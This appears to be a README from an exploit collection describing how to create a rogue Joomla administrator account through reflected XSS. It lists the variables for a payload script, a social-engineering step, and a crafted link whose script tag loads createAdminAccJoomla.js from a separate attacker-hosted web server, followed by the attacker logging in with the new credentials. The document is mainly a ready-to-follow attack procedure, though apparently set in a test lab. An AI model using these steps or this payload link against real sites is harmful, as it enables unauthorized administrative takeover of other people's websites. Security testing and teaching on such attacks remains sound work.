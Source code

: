 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccJoomla.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: minimum password length is 12 characters)

    `newAccEmail` - email of the user account to be created

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/createAdminAccJoomla.js></script>
    ```

    * **NOTES**:
      * 192.168.5.19 - target Joomla site
      * 192.168.5.13 - web server hosting payload

5. [post exploit] attacker logs into target Joomla site using specified credentials

    http://192.168.5.19/administrator/

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

![Image](screenshots/Joomla_-_create_new_admin_-_1-1.png)
